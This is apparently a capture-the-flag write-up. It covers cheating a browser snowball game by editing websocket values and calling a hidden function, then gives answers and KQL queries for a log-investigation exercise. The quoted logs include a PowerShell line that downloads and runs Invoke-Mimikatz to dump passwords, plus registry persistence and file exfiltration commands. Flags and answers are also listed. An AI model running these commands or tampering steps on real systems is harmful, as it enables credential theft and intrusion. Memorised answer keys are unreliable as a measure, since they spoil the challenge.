**Location:** The Front Yard (Dusty Giftwrap)

For this challenge, we are tasked with defeating Wombley in the great snowball fight. To win we must hit him with more snowballs than they can hit Alabaster with.

In our conversation with Dusty Giftwrap, he says that we can defeat wombley by tweaking some client side values to give us an extra edge. For challenges in a web UI like this, I always use a proxy of some sort to inspect traffic. A good option for this is Burp. 

When you start the game, it shows a menu screen with three options:
1. Random Match Making
2. Create Private Room
3. Join Private Room

For this challenge, I am going to try and defeat Wombley myself so I chose to create my own private room. Once in this private room, after clicking "READY" you'll notice that you can move around and throw snowballs, but nothing happens and you cannot accumulate points. Since this is normally a two player game, the server must be waiting for someone else to join our server before starting. After a quick look around the website, I found the following url parameter at the end of the browsers url: `singlePlayer=false`. If we change this value to true and reload the game, we can now play solo!

Now, if you try and play the game yourself, you will notice that it's not easy to hit Wombley consistently and Alabaster seems to get hit quite frequently resulting in a losing game. It is definitely possible to win through skill alone, but I decided to try and find a better way. Upon looking through some of the proxied websocket traffic with Burp, I found the following websocket message being sent to the server.

```json
{
	"type":"snowballp",
	"x":509.8999938964844,
	"y":920.5125732421875,
	"owner":"<MY PLAYER UUID>",
	"isWomb":false,
	"blastRadius":24,
	"velocityX":474.39147437831963,
	"velocityY":-339.72258892340835
}
```

It seems that each time we throw a snowball, a websocket message is sent to the server. This is expected, but one intriguing value here is `blastRadius`. Maybe we can increase the blast radius ourselves.

Set a match and replace with burp to modify the blastRadius to 1000:


Now if we try playing the game again, we can see that our snowballs leave a massive hole in the ice wall compared to before.


We can now make a large enough hole in the ice wall that we can walk straight through to the other side and stand beside Wombley, hitting him over and over again with snowballs unit we win.


Silver achievement secured!
### Gold
For the gold achievement, I assume we need to find the secret weapon - "a giant snow bomb". Dusty Giftwrap says that they can't remember where they put it or how to launch it. That will be our job to find. Let's take a look at the source code for the webpage. You can do this by right clicking the webpage and clicking "Inspect". Then change to the "Sources" tab.

After a while, I came across the following line in the `reconnecting-websocket.min.js` file.

```js
}) : mainScene.ws.sendMessage({
	type: "moasb",
	launch_code: "85e8e9729e2437c9d7d6addca68abb9f"
})
```

What kind of websocket message would be sent with a launch code? Let's refine our search to look for the word "moasb". In the `phaser-snowball-game.js` file, I found the following line.

```js
this.moasb = () => { this.ws.sendMessage({ type: 'moasb' }) }
```

Let's see what happens if we call this function during the game. To do this, we should call `this.moasb()` from another function we can trigger within the game. To do this, I figured the easiest way would be to call it from the `fireOffCharacterSnowball` function. That way it will be called as soon as a snowball is thrown. 

```js
fireOffCharacterSnowball(startX, startY, velocityX, velocityY, blastRadius, owner, id, isWomb) {
        this.moasb();  // ******* MOASB FUNCTION CALL ADDED HERE ********
        let newProjectileSnowball = this.physics.add.image(startX, startY, 'snowball').setDepth(4);
        newProjectileSnowball.creationTime = this.time.now;
        newProjectileSnowball.lastPos = { x: startX, y: startY };
        newProjectileSnowball.isWomb = isWomb;
        newProjectileSnowball.owner = owner;
        newProjectileSnowball.id = id;
        newProjectileSnowball.blastRadius = blastRadius;
        if (isWomb) {
            newProjectileSnowball.setTint(this.yellowTint);
        }
        // Enable world bounds check and destroy the snowball if it goes out of bounds
        this.projectiles.add(newProjectileSnowball);
        // Set the velocity of the new snowball projectile
        newProjectileSnowball.setVelocity(velocityX, velocityY);
    }
```

Now, load the game up, then edit the function before you start the game. Let's try.


A giant bomber plane comes and drops a MOASB on Wombley! There's our gold achievement! Done!
## Microsoft KC7
Location: The Front Yard (Pepper Minstix & Wunorse Openslae)

The North Pole is facing a serious cyber threat and we have been tasked with digging through KQL logs to track phishing schemes, ransomware, and espionage.
### Section 1
#### Question 1:
Q: *Type `let’s do this` to begin your KQL training.*
A: `let's do this`
#### Question 2:
Q: *Once you've examined all the tables, type `when in doubt take 10` to proceed.*
A: `when in doubt take 10`
#### Question 3:
Q: *How many elves did you find?* 
A: `90`
Query:
```
Employees
| count
```
#### Question 4:
Q: *Can you find out the name of the Chief Toy Maker?*
A: `Shinny Upatree`
Query:
```kql
Employees
| where role == "Chief Toy Maker"
```
#### Question 5:
Q: T*ype `operator` to continue*
A: `operator`
#### Question 6:
Q: *How many emails did Angel Candysalt receive?*
A: `31`
Query to get email address:
```
Employees
| where name == "Angel Candysalt"
```
Result: `angel_candysalt@santaworkshopgeeseislands.org`

Query to get number of emails Angel Candysalt has received:
```
Email
| where recipient == "angel_candysalt@santaworkshopgeeseislands.org"
| count
```
#### Question 7:
Q: *How many distinct recipients were seen in the email logs from twinkle_frostington@santaworkshopgeeseislands.org?*
A: `32`
Query:
```
Email
| where sender has "twinkle_frostington@santaworkshopgeeseislands.org"
| distinct recipient
| count
```
#### Question 8:
Q: *How many distinct websites did Twinkle Frostington visit?*
A: `4`
Query to get IP address:
```
Employees
| where email_addr == "twinkle_frostington@santaworkshopgeeseislands.org"
```
IP: `10.10.0.36`

Query to get distinct websites visited:
```
OutboundNetworkEvents
| where src_ip == "10.10.0.36"
| distinct url
| count
```
#### Question 9:
Q: *How many distinct domains in the PassiveDns records contain the word green?*
A: `10`
Query: 
```
PassiveDns
| where domain contains "green"
| distinct domain
| count
```
#### Question 10:
Q: *How many distinct URLs did elves with the first name Twinkle visit?*
A: `8`
Query:
```
let twinkle_ips =
Employees
| where name has "Twinkle"
| distinct ip_addr;
OutboundNetworkEvents  
| where src_ip in (twinkle_ips)  
| distinct url
| count
```
### Section 2
#### Question 1
Q: *Type surrender to get started*
A: `surrender`
#### Question 2
Q: *Who was the sender of the phishing email that set this plan into motion?*
A: `surrender@northpolemail.com`
Query:
```
Email
| where subject contains "surrender"
```

The offending email:
```
"timestamp": 2024-11-29T12:20:13Z,
"sender": surrender@northpolemail.com,
"reply_to": surrender@northpolemail.com,
"recipient": starla_peppermintz@santaworkshopgeeseislands.org,
"subject": [EXTERNAL] FW: Official Surrender Notice From Camp AlaBaster,
"verdict": CLEAN,
"link": https://albastersurrender.org/search/search/images/Team_Wombley_Surrender.doc
```
#### Question 3
Q: *How many elves from Team Wombley received the phishing email?*
A: `22`
Query:
```
Email
| where subject contains "surrender"
| distinct recipient
| count
```
#### Question 4:
Q: *What was the filename of the document that Team Alabaster distributed in their phishing email?*
A: `Team_Wombley_Surrender.doc`
Query: Same as question 2. The document filename is shown in the "link" url.
#### Question 5:
Q: *Who was the first person from Team Wombley to click the URL in the phishing email?*
A: `Joyelle Tinseltoe`
Query:
```
Employees
| join kind=inner (
    OutboundNetworkEvents
) on $left.ip_addr == $right.src_ip // condition to match rows
| where url contains "Team_Wombley_Surrender.doc"
| project name, ip_addr, url, timestamp // project returns only the information you select
| sort by timestamp asc //sorts time ascending
```

First result (sorted by time):
```
"name": Joyelle Tinseltoe,
"ip_addr": 10.10.0.25,
"url": https://albastersurrender.org/public/share/images/published/Team_Wombley_Surrender.doc,
"timestamp": 2024-11-27T14:11:45Z
```
#### Question 6:
Q: *What was the filename that was created after the .doc was downloaded and executed?*
A: `keylogger.exe`

First we have to look for Joyelle Tinseltoe's hostname:
```
Employees
| where name == "Joyelle Tinseltoe"
```

Result:
```
"hire_date": 2023-02-02T00:00:00Z,
"name": Joyelle Tinseltoe,
"user_agent": Mozilla/5.0 (Windows NT 6.2; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.101 Safari/537.36,
"ip_addr": 10.10.0.25,
"email_addr": joyelle_tinseltoe@santaworkshopgeeseislands.org,
"username": jotinseltoe,
"role": Craftsperson Elf (Team Wombley),
"hostname": Elf-Lap-W-Tinseltoe,
"mfa_enabled": True,
```

Now look for ProcessEvents with the hostname of `Elf-Lap-W-Tinseltoe:
```
ProcessEvents
| where timestamp between(datetime("2024-11-27T14:11:45Z") .. datetime("2024-11-27T14:13:00Z"))
| where hostname == "Elf-Lap-W-Tinseltoe"
```
*Note: The results were filtered by timestamp as well to include a period of 2 minutes after the file was downloaded.*

Result:
```
"timestamp": 2024-11-27T14:12:45Z,
"parent_process_name": Explorer.exe,
"parent_process_hash": a39ac00c7890ac93af341dafe839265b040d443691ea39268afb198a6f9b0269,
"process_commandline": C:\Users\Public\AppData\Roaming\keylogger.exe,
"process_name": keylogger.exe,
"process_hash": e7e7c6d6a4b5d67a90556b50e45734c8221dbf89f47913d82bd04b47162e141a,
"hostname": Elf-Lap-W-Tinseltoe,
"username": jotinseltoe
```
#### Question 7:
Q: *To obtain your flag use the KQL below with your last answer!*
A: `a2V5bG9nZ2VyLmV4ZQ==`
Query:
```
let flag = "keylogger.exe";
let base64_encoded = base64_encode_tostring(flag);
print base64_encoded
```
### Section 3
#### Question 1:
Q: *Type `snowfall` to begin*
A: `snowfall`
#### Question 2:
Q: *What was the IP address associated with the password spray?*
A: `59.171.58.12`
Query:
```
AuthenticationEvents
| where result == "Failed Login"
| summarize FailedAttempts = count() by username, src_ip, result
| where FailedAttempts >= 5
| sort by FailedAttempts desc
```

Result:
```
"username": twsnowfall,
"src_ip": 59.171.58.12,
"result": Failed Login,
"FailedAttempts": 248
```
#### Question 3:
Q: *How many `unique` accounts were impacted where there was a successful login from 59.171.58.12?*
A: `23`
Query:
```
AuthenticationEvents
| where result == "Successful Login"
| where src_ip == "59.171.58.12"
| distinct username
| count
```
#### Question 4:
Q: *What service was used to access these accounts/devices?*
A: `RDP`
Query:
```
AuthenticationEvents
| where result == "Successful Login"
| where src_ip == "59.171.58.12"
```

First Result:
```
"timestamp": 2024-12-10T19:05:19Z,
"hostname": Elf-Lap-A-Snowflakebreeze,
"src_ip": 59.171.58.12,
"user_agent": Mozilla/5.0 (iPod; CPU iPod OS 7_4_2; like Mac OS X) AppleWebKit/600.42 (KHTML, like Gecko) Chrome/49.0.1306.267 Mobile Safari/534.3,
"username": crsnowflakebreeze,
"result": Successful Login,
"password_hash": 4738c913ea601c6e12b02a28d341a8c9,
"description": User successfully logged onto Elf-Lap-A-Snowflakebreeze via RDP.
```
#### Question 5:
Q: *What file was exfiltrated from Alabaster’s laptop?*
A: `Secret_Files.zip`
Query:
```
ProcessEvents
| where username == "alsnowball"
```

Look through events to find exfil command (file copied from alsnowball to wocube):
```
"timestamp": 2024-12-16T15:51:52Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": copy C:\Users\alsnowball\AppData\Local\Temp\Secret_Files.zip \\wocube\share\alsnowball\Secret_Files.zip,
"process_name": cmd.exe,
"process_hash": 1330d7cd9a939b3a0f0f97201cce3efd215a68e2297ec991bd141adf063b55c0,
"hostname": Elf-Lap-A-Snowball,
"username": alsnowball
```
#### Question 6:
Q: *What is the name of the malicious file that was run on Alabaster's laptop?*
A: `EncryptEverything.exe`
Query:
```
ProcessEvents
| where username == "alsnowball"
```

Look through events to find the following malicious command:
```
"timestamp": 2024-12-15T14:52:13Z,
"parent_process_name": powershell.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": Copy-Item "C:\\Malware\\EncryptEverything.exe" -Destination "C:\\Windows\\Users\\alsnowball",
"process_name": Copy-Item,
"process_hash": 5335d7579447d72ad3562ead63f799b8a6b861f16520c630f1fffc325c8dc2e8,
"hostname": Elf-Lap-A-Snowball,
"username": alsnowball
```
#### Question 7:
Q: *To obtain your flag use the KQL below with your last answer!*
A: `RW5jcnlwdEV2ZXJ5dGhpbmcuZXhl`
Query:
```
let flag = "EncryptEverything.exe";
let base64_encoded = base64_encode_tostring(flag);
print base64_encoded
```
### Section 4
#### Question 1:
Q: *Type `stay frosty` to begin*
A: `stay frosty`
#### Question 2:
Q: *What was the timestamp of first phishing email about the breached credentials received by Noel Boetie?*
A: `2024-12-12T14:48:55Z`

First get Noel Boetie's email:
```
Employees
| where name == "Noel Boetie"
```

Email: `noel_boetie@santaworkshopgeeseislands.org`

Now get suspicious emails sorted by timestamp:
```
Email
| where recipient == "noel_boetie@santaworkshopgeeseislands.org"
| where subject contains "credentials"
| sort by timestamp asc
```

First result:
```
"timestamp": 2024-12-12T14:48:55Z,
"sender": mistletoe_jinglebellsworth@santaworkshopgeeseislands.org,
"reply_to": mistletoe_jinglebellsworth@santaworkshopgeeseislands.org,
"recipient": noel_boetie@santaworkshopgeeseislands.org,
"subject": Your credentials were found in recent breach data,
"verdict": CLEAN,
"link": https://holidaybargainhunt.io/published/files/files/echo.exe
```
#### Question 3:
Q: *When did Noel Boetie click the link to the first file?*
A: `2024-12-12T15:13:55Z`
Query:
```
OutboundNetworkEvents
| where url == "https://holidaybargainhunt.io/published/files/files/echo.exe"
```

Result:
```
"timestamp": 2024-12-12T15:13:55Z,
"method": GET,
"src_ip": 10.10.0.9,
"user_agent": Mozilla/5.0 (Windows NT 6.2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.120 Safari/537.36,
"url": https://holidaybargainhunt.io/published/files/files/echo.exe
```
#### Question 4:
Q: *What was the IP for the domain where the file was hosted?*
A: `182.56.23.122`
Query:
```
PassiveDns
| where domain == "holidaybargainhunt.io"
| distinct ip
```
#### Question 5:
Q: *what hostname was accessed?*
A: `WebApp-ElvesWorkshop`
Query:
```
AuthenticationEvents
| where src_ip == "182.56.23.122"
```

Result:
```
"timestamp": 2024-11-29T12:25:03Z,
"hostname": WebApp-ElvesWorkshop,
"src_ip": 182.56.23.122,
"user_agent": Mozilla/5.0 (Windows NT 6.3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36,
"username": mijinglebellsworth,
"result": Successful Login,
"password_hash": 6a4b8f13abf0baf71d5685bdec9ee6f1,
"description": User successfully logged onto WebApp-ElvesWorkshop via RDP.
```
#### Question 6:
Q: *What was the script that was run to obtain credentials?*
A: `Invoke-Mimikatz.ps1`
Query:
```
ProcessEvents
| where hostname == "WebApp-ElvesWorkshop"
```

Offending result (8 total):
```
"timestamp": 2024-12-10T00:00:00Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug" "sekurlsa::logonpasswords",
"process_name": cmd.exe,
"process_hash": acb984e77fe41893cc10827bb8c5f4d97632b9fc76b33748e947183caa48
```
#### Question 7:
Q: *What is the timestamp where Noel executed the file?*
A: `2024-12-12T15:14:38Z`
Query:
```
ProcessEvents
| where username == "noboetie"
| where process_commandline contains "echo.exe"
```

Result:
```
"timestamp": 2024-12-12T15:14:38Z,
"parent_process_name": Explorer.exe,
"parent_process_hash": 00e563ac10db418d26a5e2bf2abbf80bfc4f7e9f4865a72dfe9ec59d26620f25,
"process_commandline": Explorer.exe "C:\Users\noboetie\Downloads\echo.exe",
"process_name": Explorer.exe,
"process_hash": dfa249867546156557f09b322999cad4f628246adca45f36f5bbe106bf6c3b73,
"hostname": Elf-Lap-A-Boetie,
"username": noboetie
```
#### Question 8:
Q: *What domain was the `holidaycandy.hta` file downloaded from?*
A: `compromisedchristmastoys.com`
Query:
```
OutboundNetworkEvents
| where url contains "holidaycandy.hta"
```

Result (2 total):
```
"timestamp": 2024-12-12T15:39:25Z,
"method": GET,
"src_ip": 10.10.0.9,
"user_agent": Mozilla/5.0 (Windows NT 6.2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.120 Safari/537.36,
"url": http://compromisedchristmastoys.com/holidaycandy.hta
```
#### Question 9:
Q: *what was the first file that was created after extraction?*
A: `sqlwriter.exe`
Query (Get timestamp from when frosty.zip was extracted):
```
ProcessEvents
| where hostname == "Elf-Lap-A-Boetie"
| where process_commandline contains "frosty.zip"
```

Result (2 total):
```
"timestamp": 2024-12-24T17:19:45Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": tar -xf C:\\Windows\\Tasks\\frosty.zip -C C:\\Windows\\Tasks\\,
"process_name": tar.exe,
"process_hash": 3bd4e242cd32440912efa5769b6aee923d95f99a93182668d2a781cb72e2b4a2,
"hostname": Elf-Lap-A-Boetie,
"username": noboetie
```

Get FileCreationEvents from just after that timestamp:
```
FileCreationEvents
| where timestamp between(datetime("2024-12-24T17:19:45Z") .. datetime("2024-12-25T17:19:45Z"))
| sort by timestamp asc
```

First result:
```
"timestamp": 2024-12-24T17:54:25Z,
"hostname": Elf-Lap-A-Boetie,
"username": noboetie,
"sha256": 72b92683052e0c813890caf7b4f8bfd331a8b2afc324dd545d46138f677178c4,
"path": C:\Windows\Tasks\sqlwriter.exe,
"filename": sqlwriter.exe,
"process_name": explorer.exe
```
#### Question 10:
Q: *What is the name of the property assigned to the new registry key?*
A: `frosty`
Query:
```
ProcessEvents
| where process_commandline contains "sqlwriter.exe"
```

Result:
```
"timestamp": 2024-12-24T18:40:36Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": New-Item -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "MS SQL Writer" -Force | New-ItemProperty -Name "frosty" -Value "C:\Windows\Tasks\sqlwriter.exe" -PropertyType String -Force,
"process_name": powershell.exe,
"process_hash": b2bdf6438ab4329448e06b53f5acbbaa28f19c5d1f7d4107a1292c0366eed643,
"hostname": Elf-Lap-A-Boetie,
"username": noboetie
```
#### Question 11:
Q: *To obtain your FINAL flag use the KQL below with your last answer!*
A: `ZnJvc3R5`
Query:
```
let finalflag = "frosty";
let base64_encoded = base64_encode_tostring("frosty");
print base64_encoded
```

See Next: [Act 3](../act3/act3.md)

